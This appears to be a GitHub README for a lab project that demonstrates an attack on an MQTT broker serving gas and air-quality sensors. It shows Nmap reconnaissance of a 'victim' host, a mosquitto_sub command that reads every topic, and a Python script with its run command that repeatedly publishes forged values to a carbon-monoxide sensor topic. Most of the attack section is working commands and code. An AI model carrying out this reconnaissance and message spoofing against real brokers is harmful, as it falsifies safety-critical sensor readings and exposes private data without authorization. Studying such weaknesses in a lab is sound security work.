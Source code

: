 # Steps to Similate the Attack on Victim

## Step - 1: 
In my /etc/hosts file, I've mapped my victim's IP to the alias 'tom' for security purposes. In upcoming simulations, I'll be using 'tom' to represent this IP.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/Host.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 2: 
Do an **Nmap scan** on the target ip, Nmap scan (nmap -A tom) was an aggressive scan on tom, focusing only on common ports rather than all possible ones. Key findings:
  - Port 22 (SSH) is open, running OpenSSH 9.6p1 on Ubuntu.
  - SSH Host Keys: Shows both ECDSA and ED25519 keys.
  - OS Detection: The device is running a Linux OS with kernel version 4.x/5.x.
  - Network Distance: 1 hop.
**Note:** This scan did not detect port 1883 (MQTT) as it was outside the scanned port range.

<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 3: 
Do another **Nmap Scan**(nmap -p- tom), the -p- option was used to scan all 65,535 TCP ports on tom (IP: 172.16.17.207). Results show:
  - Port 22: Open (SSH)
  - Port 1880: Open (vsat-control)
  - Port 1883: Open (MQTT)
This confirms that port 1883 (MQTT) is open, as it was not detected in the previous scan due to the limited port range.
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/nmap-p.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 4: Monitoring Sensor Data Using MQTT
To subscribe to all topics on the MQTT broker and display real-time sensor data, use the following command:
```bash
mosquitto_sub -h tom -p 1883 -t '#' -v
```
This command subscribes to all topics (#) and outputs real-time sensor data with topic names and values, such as gas levels (H2, LPG, CO) and air quality metrics (PM2.5, CO2, TEMP).
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/mosquitto.jpeg" alt="GitHub Logo" width="400">
</p>

## Step - 5: 
Now it time to write a script connects to an MQTT broker and continuously publishes a message to a specified topic with a delay between each publish. The script takes four command-line arguments: broker address, topic, message, and delay.
```bash
import paho.mqtt.client as mqtt
import time
import sys

# Check if the correct number of arguments is provided
if len(sys.argv) != 5:
    print("Usage: script.py <broker_address> <topic> <message> <delay>")
    sys.exit(1)

# Get command-line arguments
broker_address = sys.argv[1]
topic = sys.argv[2]
message = sys.argv[3]
delay = float(sys.argv[4])  # Convert delay to float

print(f"Arguments received - Broker: {broker_address}, Topic: {topic}, Message: {message}, Delay: {delay}")

# Create an MQTT client instance
client = mqtt.Client()

# Connect to the MQTT broker
client.connect(broker_address)

# Continuously send the message to the topic
try:
    while True:
        client.publish(topic, message)
        print(f"Data '{message}' sent to topic {topic}")
        time.sleep(delay)  # Use the delay provided in seconds
except KeyboardInterrupt:
    print("Process interrupted")
finally:
    client.disconnect()
```

Step - 6:
Running the script.py file by adding the broker address, topic, message, and delay.
```bash
python3 script.py tom ZPHS01B/CO '10' 1.00
```
This is the output: 
<p align="center">
  <img src="https://github.com/Bhargav9490/MQTT_Attack/blob/main/Attack/Attack.jpeg" alt="GitHub Logo" width="400">
</p>
